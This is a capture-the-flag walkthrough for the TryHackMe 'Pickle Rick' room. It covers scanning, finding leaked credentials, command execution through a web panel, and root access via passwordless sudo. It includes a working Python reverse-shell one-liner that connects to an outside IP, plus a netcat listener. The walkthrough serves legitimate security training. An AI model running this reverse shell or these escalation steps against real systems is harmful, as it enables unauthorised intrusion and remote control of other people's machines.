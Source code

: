 This is a detailed walkthrough of the tryhackme CTF titled Pickle Rick: This Rick and Morty-themed CTF revolves around exploiting a vulnerable web server to find three ingredients to transform Rick from a pickle back to human state. This walkthrough is intended to be used as a guide so no actaul flags or "answers" will be revealed. 

## Scanning

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals two open ports:

![nmap_result](https://github.com/user-attachments/assets/9cffca0f-cd9d-44e0-99eb-7bd522615f25)

# Enumeration

### **Analysis Port 80/TCP**

Let's check out the websever on port 80/TCP.

I checked the source code and revealed a username in the html comments:

![pagesource](https://github.com/user-attachments/assets/23742b21-e765-47e8-8788-cc3d68224727)


Now let's run a directory scan on the target using gobuster:

```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x txt,php,html -o buster.txt
```
Command break down:

dir: Specifies that we want to perform directory brute-forcing.

-u $ip: The -u flag followed by the target IP address or hostname indicates the URL to scan.

-w=/usr/share/wordlists/dirb/common.txt: This option specifies the wordlist to use for directory brute-forcing. In this case, it uses the common wordlist located at /usr/share/wordlists/dirb/common.txt.

-x txt,php,html: The -x flag specifies file extensions to search for. Here, we’re looking for files with extensions .txt, .php, and .html.

-o buster.txt: The -o flag specifies the output file where the results will be saved. In this case, it saves the output to a file named “buster.txt.”

We found two interesting directories:

![buster](https://github.com/user-attachments/assets/005f3530-538e-4fb7-a809-9c0379e1e99b)

```bash
/login.php
/robots.txt
```

Robots.txt can often reveal vulnerabilities in a web server, or inadvertently leaked information. 
Let's also run a nikto scan on the target IP:

```bash
nikto -h $ip | tee nikto.txt
```
Command break down:
-h $ip: The -h option specifies the target host

| tee nikto.txt: The tee command allows you to save the output to a file (nikto.txt) 

![nikto](https://github.com/user-attachments/assets/2be2bf43-af1f-4a72-929a-76fdcbce784f)

This again reveals the /login.php directory among other information.

Browsing to /login.php , we are redirected to a log in page :

![login](https://github.com/user-attachments/assets/8ffd221c-cca9-4f8e-bee7-36c19203e518)

Navigating to robots.txt reveals a strange word that looks like it might be a login password.

Let's try logging in with the username we found earlier from the sourcecode and the potential password from robots.txt.

# Gaining privileges

Success! We are now logged in!

We are presented with a command panel. 

Running the command id reveals that we are www-data:

```bash
id
```
![id](https://github.com/user-attachments/assets/3366d92d-5891-44e8-8dce-2f462c7998d9)

Now, let's run ls -la to see what files are available: 

```bash
ls -la
```
![ls -la](https://github.com/user-attachments/assets/ec5f253e-5e29-4132-afb8-42615a23012e)

Let's run the cat command on clue.txt:

![cat](https://github.com/user-attachments/assets/5a99da24-b9ab-430f-8347-eaf843b8b82e)

The cat command is disabled. Let's try some other commands with similiar functionality to cat, like less. 
less works and the contents display: Look around the file system for the other ingredient.
Ok, let's run less on Sup3rS3cretPickl3Ingred.txt.
And this returns our first secret ingredient!

# Expolitation

Let's try to get more access to this web server with a reverse shell. 
As a test, let's run a simple python command:

```bash
python3 -c 'print("test")'
```
The command works and displayed test. This let's us know that we can run python3 commands. So, let's try running a reverse shell in python3. 
I often like to use the site "https://www.revshells.com/" because it has a large colletion of reverse shell, with a simple interface to input 
your IP and desired port number, as well as showing the nc listener.

Scroll down on through the list of reverse shells on the bottom left until you get to Python3 shortest. In our situation with the command panel,
I find that shorter shells tend to have a high success rate.

Shell for input on command panel:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.24.123",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

nc listener for output on our terminal:
```bash
nc -lvnp 4444
```

Alright! We have a reverse shell as www-data! Let's run the command env to get a summary of environmental varialbles:

![env](https://github.com/user-attachments/assets/fc127f2a-363d-4178-9f22-c83e649baa39)

Ok, the first thing I like to do is run a few commands to upgrade our shell's functionality and stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
ctrl -z
stty raw -echo; fg
stty rows 38 columns 116
```

Now that we have upgraded the shell, let's check for privileges of www-data:

Command:
```bash
sudo -l
```
![sudo -l](https://github.com/user-attachments/assets/19ce7691-b99e-4672-b0db-c1f42841d650)

This is great news as it indicates we can execute any command with no password!
Let's explore the file system and get the other flags. First, let's check the home directory:
Command:
```bash
ls /home
```
We see two directories in home: rick and ubuntu. Now, we'll navigate to /home/rick.
Command:
```bash
cd /home/rick
ls -lah
```

Great! Let's use less to see the contents of the 2nd ingredient, don't forget to use '' due to the space.


![2nd](https://github.com/user-attachments/assets/da82fe39-0967-4c92-a433-042f5c4d7539)

We now have the second ingredient! 
Let's check the root directory for the 3rd one. A couple things to note. We will need to use the sudo command with no pasword to display the 3rd flag. I also noticed that we actually can use the cat command in our shell.
```bash
sudo ls /root
sudo cat /root/3rd.txt
```

And we now have the 3rd flag! I hope you enjoyed this CTF and it was a good learning experience. Remember that there are different approaches that you can take in the room to get the same results, so try some different approaches and techniques. 

